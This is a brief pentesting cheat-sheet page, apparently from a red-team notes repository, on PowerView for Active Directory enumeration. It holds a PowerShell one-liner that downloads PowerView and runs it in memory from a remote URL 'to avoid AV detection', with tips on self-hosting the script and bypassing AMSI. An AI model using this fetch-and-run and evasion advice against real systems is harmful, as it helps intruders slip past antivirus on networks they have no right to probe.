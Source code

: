 # Updates:

| date | name | description | comment | link |
| --- | --- | --- | --- | --- |
| 07/2020 | PowerView | Different tools for enumaration in Active Directory | Active Directory | [PowerView](#powerview) |


# PowerView

## Using PowerView: 

cheatsheet: https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

## Load into memory from remote (to avoid AV detection):

> iex ((New-Object System.Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1"))```
  
**NOTE:** if AV detects the URL, then just host it somewhere on your own
    
## Use something like this syntax:

> Get-NetUser -Filter "(title=Test Developer Junior)" | select name,samaccountname,title,manager

## Avoiding Antivirus:

In case AV prevents executing PowerShell scripts, try to bypass AMSI (https://www.youtube.com/watch?v=yHstFvLwDYM)

---
